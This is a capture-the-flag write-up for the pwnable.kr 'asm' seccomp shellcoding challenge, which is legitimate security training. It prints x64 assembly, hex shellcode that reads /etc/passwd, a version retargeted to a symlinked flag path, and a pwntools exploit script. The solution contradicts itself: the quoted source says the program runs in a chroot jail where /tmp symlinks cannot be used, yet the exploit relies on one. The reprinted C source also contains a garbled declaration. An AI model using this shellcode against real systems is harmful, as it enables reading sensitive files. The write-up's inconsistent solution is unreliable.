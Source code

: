 # asm

## Description

asm - 6 pt

> Mommy! I think I know how to make shellcodes <br>
> ssh asm@pwnable.kr -p2222 (pw: guest)

## Solution

### Background

#### Shellcodes

A shellcode is a set of instructions that can be executed by the processor. Shellcodes are often injected into a program to execute arbitrary code, such as opening a shell or reading a file. Most of times, the injection is done using a buffer overflow, and the execution of the shellcode is done by jumping to the address of the injectioned code.

#### System calls

A syscall is a way for a program to interact with the operating system, and request a service. For example, the syscall `open` will open a file, and the syscall `read` will read the content of a file. 

Syscalls are done by interrupting the processor, and passing control the kernel. The kernel will then execute the syscall, and return the result to the program. 

In practice, the program will call `int` with the right interrupt nubmer - so the interrupt handler will be the kernel. Also, the program will pass the syscall number in the `eax` register, and the arguments in the other registers. The kernel will then execute the syscall, and return the result in the `eax` register.

#### seccomp

Seccomp is a Linux kernel feature that allows to restrict the syscalls that a program can use. It is often used to prevent a program from executing arbitrary code, by only allowing a limited set of syscalls.

### Exploit

Logging into the server, we get the following files:

```bash
-rwxr-xr-x 1 root root 13704 Nov 29  2016 asm
-rw-r--r-- 1 root root  1793 Nov 29  2016 asm.c
-rw-r--r-- 1 root root   211 Nov 19  2016 readme
-rw-r--r-- 1 root root    67 Nov 19  2016 this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong
```

The `asm.c` file contains the source code of the program, the `readme` file tells us the program runs with the right permissions on port `9026`, and the very long file is only there to inicate the name of the flag file.

Let's take a look at the source code:

```c

#define LENGTH 128

void sandbox(){
	scmp_		_ctx ctx = seccomp_init(SCMP_ACT_KILL);
	if (ctx == NULL) {
		printf("seccomp error\n");
		exit(0);
	}

	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);

	if (seccomp_load(ctx) < 0){
		seccomp_release(ctx);
		printf("seccomp error\n");
		exit(0);
	}
	seccomp_release(ctx);
}

char stub[] = "\x48\x31\xc0\x48\x31\xdb\x48\x31\xc9\x48\x31\xd2\x48\x31\xf6\x48\x31\xff\x48\x31\xed\x4d\x31\xc0\x4d\x31\xc9\x4d\x31\xd2\x4d\x31\xdb\x4d\x31\xe4\x4d\x31\xed\x4d\x31\xf6\x4d\x31\xff";
unsigned char filter[256];
int main(int argc, char* argv[]){

	setvbuf(stdout, 0, _IONBF, 0);
	setvbuf(stdin, 0, _IOLBF, 0);

	printf("Welcome to shellcoding practice challenge.\n");
	printf("In this challenge, you can run your x64 shellcode under SECCOMP sandbox.\n");
	printf("Try to make shellcode that spits flag using open()/read()/write() systemcalls only.\n");
	printf("If this does not challenge you. you should play 'asg' challenge :)\n");

	char* sh = (char*)mmap(0x41414000, 0x1000, 7, MAP_ANONYMOUS | MAP_FIXED | MAP_PRIVATE, 0, 0);
	memset(sh, 0x90, 0x1000);
	memcpy(sh, stub, strlen(stub));
	
	int offset = sizeof(stub);
	printf("give me your x64 shellcode: ");
	read(0, sh+offset, 1000);

	alarm(10);
	chroot("/home/asm_pwn");	// you are in chroot jail. so you can't use symlink in /tmp
	sandbox();
	((void (*)(void))sh)();
	return 0;
}
```

It looks like the program takes a shellcode as input, and executes it. However, the a seccomp filter is applied, and the program is only allowed to use the syscalls `open`, `read`, `write`, `exit` and `exit_group`.

Also, the program uses `chroot` to run in `/home/asm_pwn`, so we can't use symlinks in `/tmp`.

Our goal is fairly simple: we need to make a shellcode that will open the flag file, read it, and print it to the screen using the `open`, `read` and `write` syscalls.

We can either write our own shellcode, or simply look one up online. The website [shell-storm](http://shell-storm.org/shellcode/) is a good place to look for shellcodes, and it seems like [this](https://shell-storm.org/shellcode/files/shellcode-878.html) `/etc/passwd` reader is a good starting point.

Here are the instructions:

```asm
_start:
jmp _push_filename
  
_readfile:
; syscall open file
pop rdi ; pop path value
; NULL byte fix
xor byte [rdi + 11], 0x41
  
xor rax, rax
add al, 2
xor rsi, rsi ; set O_RDONLY flag
syscall
  
; syscall read file
sub sp, 0xfff
lea rsi, [rsp]
mov rdi, rax
xor rdx, rdx
mov dx, 0xfff; size to read
xor rax, rax
syscall
  
; syscall write to stdout
xor rdi, rdi
add dil, 1 ; set stdout fd = 1
mov rdx, rax
xor rax, rax
add al, 1
syscall
  
; syscall exit
xor rax, rax
add al, 60
syscall
  
_push_filename:
call _readfile
path: db "/etc/passwdA"
```

And this is the actual shellcode:
```
\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41
```

As we've already stated, the above shellcode reads the `/etc/passwd` file. We need to modify it to read the flag file instead.

Before doing that, there are 2 observations we need to make here:

* the path of the file read by the shellcode is stored in the very last bytes, and is terminated by the `A` character - to avoid a null byte.

* the program `xor`s the last byte of the path with `0x41` - to avoid a null byte, and so if we change the length of the path, we need to change the offset of the `xor` instruction accordingly.

Having that in mind, a quick modification of the shellcode is to change the path to `/tmp/a/flag`. The length of this new path is the same as `/etc/passwd`, so we don't need to change the offset of the `xor` instruction:

```
\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x74\x6D\x70\x2F\x61\x2F\x66\x6C\x61\x67\x41
```

By creating a symlink in `/tmp/a` to the flag file, we can read the flag file using the modified shellcode.

And so, the final exploit is:

```python
from pwn import *

# create a symlink in /tmp
ssh = ssh('asm', 'pwnable.kr', port=2222, password='guest')

ssh.mkdir('/tmp/a')
SSHPath('/tmp/a/flag', ssh=ssh).symlink_to('/home/asm_pwn/this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong')

# connect to the server and send the shellcode
con = remote('pwnable.kr', 9026)

con.sendline('\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x74\x6D\x70\x2F\x61\x2F\x66\x6C\x61\x67\x41')

con.interactive()
```

```
Mak1ng_shelLcodE_i5_veRy_eaSy
```
